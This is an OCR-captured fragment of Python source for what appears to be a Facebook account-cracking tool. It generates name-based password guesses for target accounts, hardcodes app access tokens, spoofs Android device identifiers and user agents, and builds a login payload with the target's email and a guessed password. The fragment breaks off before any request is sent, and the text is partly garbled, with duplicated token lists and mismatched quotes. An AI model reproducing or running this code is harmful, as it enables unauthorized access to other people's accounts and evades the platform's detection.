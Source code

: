                         ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = ['350685531728|62f8ce9f74b12f84c123cc23437a4a32',
'438142079694454|fc0a7caa49b192f64f6f5a6d9643bb28',	'6628568379|c1e620fa708a1d5696fb991c1bde5662','1479723375646806|afb3e4a6d8b868314cc843c21eebc6ae']
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        en = random.choice(['en_US','en_GB'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua = "Davik/2.1.0 (Linux; U; Android '+fbsv+'.0.0; '+model+' Build/'+''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(6))+' [FBAN/FB4A;FBAV/'+str(random.randint(111,555))+'.0.0.'+str(random.randrange(1,19))+'.'+str(random.randint(111,555))+';FBBV/'+str(random.randint(745000000,745999999))+';FBDM/{density=2.25,width=720,height=1452};FBLC/pl_PL;FBCR/T-Mobile.pl;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.adsmanager;FBDV/'+model+';FBSV/4.4.4;nullFBCA/armeabi-v7a:armeabi;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = ['350685531728|62f8ce9f74b12f84c123cc23437a4a32',
'438142079694454|fc0a7caa49b192f64f6f5a6d9643bb28',	'6628568379|c1e620fa708a1d5696fb991c1bde5662','1479723375646806|afb3e4a6d8b868314cc843c21eebc6ae']
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                "adid": adid,
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": ids,
"password": pas,